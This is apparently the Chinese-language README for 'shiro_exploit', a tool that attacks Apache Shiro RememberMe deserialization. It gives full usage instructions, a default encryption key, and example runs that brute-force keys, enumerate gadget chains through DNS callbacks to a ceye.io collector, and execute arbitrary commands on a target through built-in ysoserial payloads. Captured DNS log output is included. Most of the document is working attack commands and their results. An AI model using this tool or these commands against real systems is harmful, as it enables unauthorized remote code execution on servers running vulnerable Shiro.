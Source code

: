 ## 使用方法

```bash
➜  ~ shiro_exploit --help
Usage: shiro_exploit [--key <key>] [-m <mode>] [-t <target>] [-s <ser>] [--file <file>] [--keys <keys>] [--csv <csv>] [--proxy <proxy>] [--timeout <timeout>] [--thread <thread>] [--chain] [--exploit] [--dns <dns>] [-p <payload>] [-c <command>] [--echo-name <echo-name>] [--command-name <command-name>] [-l]

shiro_exploit

Options:
  --key             you can specify known keys
  -m, --mode        apache-shiro encryption algorithm,default: CBC
  -t, --target      the target
  -s, --ser         serialize file
  --file            read the target from the file
  --keys            read the key from the file
  --csv             export to the csv file
  --proxy           proxy to use for requests
                    (ex:[http(s)|socks5(h)]://host:port)
  --timeout         set request timeout
  --thread          number of concurrent threads
  --chain           enum chain mode
  --exploit         exploit mode
  --dns             dns identifier, default: 981tzg.ceye.io
  -p, --payload     select a payload
  -c, --command     command to execute
  --echo-name       tomcat echo request header name
  --command-name    tomcat command request header name
  -l, --list        list all payload
  --help            display usage information

```

## 详细参数

- `--key`指定Key，默认`kPH+bIxk5D2deZiIxcaaaA==`
- `-m`指定加密模式，默认`CBC`,可选：`GCM`
- `-t`单个目标
- `-s`读入ysoserial生成的文件作为payload
- `--file`从文件读入目标
- `--keys`从文件读入key
- `--csv`导出到csv文件
- `--exploit`利用模式，爆破出key后，如果开启exploit模式会读入ysoserial生成的文件作为payload，如果`--ser`
  参数为空，则为`--dns`作为URL_DNS的参数生成payload
- `--dns`验证的DNS服务器，请求为目标的`主机名_端口.你的DNS记录服务器`，默认为`981tzg.ceye.io`
- `-p`使用内置payload，配合`-c`或者`--dns`和`--echo-name`，`--command-name`，tomcat回显后面再更新
- `-l`列出内置payload
- `--chain`枚举利用链，结果查看DNS记录服务，前缀就是利用链名称。

## 使用ysoserial文件

```bash
➜  ~ shiro_exploit -t http://127.0.0.1:8080 --exploit --ser /home/kali-team/1.ser                 
+-------------------------------------------------------------------------+--------+--------+------+--------------------------+
| url                                                                     | method | verify | mode | key                      |
+=========================================================================+========+========+======+==========================+
| http://127.0.0.1:8080/login;jsessionid=EAEAD8C3FA8884D816F575E55B654694 | GET    | true   | CBC  | kPH+bIxk5D2deZiIxcaaaA== |
+-------------------------------------------------------------------------+--------+--------+------+--------------------------+

```

## 使用DNS记录验证漏洞

```bash
➜  ~ shiro_exploit -t http://127.0.0.1:8080 --exploit --dns 981tzg.ceye.io
+-------------------------------------------------------------------------+--------+--------+------+--------------------------+
| url                                                                     | method | verify | mode | key                      |
+=========================================================================+========+========+======+==========================+
| http://127.0.0.1:8080/login;jsessionid=E01994D45911DE55FCE6606CFFF48AC7 | GET    | true   | CBC  | kPH+bIxk5D2deZiIxcaaaA== |
+-------------------------------------------------------------------------+--------+--------+------+--------------------------+

```

## 爆破利用链

- 主要利用ping命令带上利用链名称拼接到DNS前缀，如果能在DNS记录中看到说明可以使用该利用链

```bash
➜  ~ shiro_exploit -t http://127.0.0.1:8080 --exploit --dns 981tzg.ceye.io --chain
+-------------------------------------------------------------------------+--------+--------+------+--------------------------+
| url                                                                     | method | verify | mode | key                      |
+=========================================================================+========+========+======+==========================+
| http://127.0.0.1:8080/login;jsessionid=E01994D45911DE55FCE6606CFFF48AC7 | GET    | true   | CBC  | kPH+bIxk5D2deZiIxcaaaA== |
+-------------------------------------------------------------------------+--------+--------+------+--------------------------+

```

- 查看DNS记录得到可用利用链，说明`bs1`,`cck3`,`cc5`,`cc7`,`cck1`和`cc6`利用链可用

```csv
969227011	bs1.127.0.0.1.8080.981tzg.ceye.io	127.0.0.1	2022-12-22 13:48:20
969226980	bs1.127.0.0.1.8080.981tzg.ceye.io	127.0.0.1	2022-12-22 13:48:19
969226976	ccK3.127.0.0.1.8080.981tZG.cEYE.Io	127.0.0.1	2022-12-22 13:48:19
969226947	cc5.127.0.0.1.8080.981tzg.ceye.io	127.0.0.1	2022-12-22 13:48:18
969226945	cc7.127.0.0.1.8080.981tzg.ceye.io	127.0.0.1	2022-12-22 13:48:18
969226936	cCK3.127.0.0.1.8080.981tzg.ceyE.iO	127.0.0.1	2022-12-22 13:48:18
969226932	cck1.127.0.0.1.8080.981tzg.ceye.io	127.0.0.1	2022-12-22 13:48:18
969226818	cc6.127.0.0.1.8080.981tzg.ceye.io	127.0.0.1	2022-12-22 13:48:14
```

## 使用内置ysoserial

- payload来自：(ysoserial_rs)[https://github.com/emo-cat/ysoserial_rs]
- 例如使用利用`commons_collections_k1`链执行命令，使用`-p`指定利用链，`-c`指定要执行的命令

```bash
➜  ~ shiro_exploit -t http://127.0.0.1:8080 --exploit -p cck1 -c "ping qq.com"                                    
+-------------------------------------------------------------------------+--------+--------+------+--------------------------+
| url                                                                     | method | verify | mode | key                      |
+=========================================================================+========+========+======+==========================+
| http://127.0.0.1:8080/login;jsessionid=5FAF1087D2448C017C2959B2AC02CDAF | GET    | true   | CBC  | kPH+bIxk5D2deZiIxcaaaA== |
+-------------------------------------------------------------------------+--------+--------+------+--------------------------+

```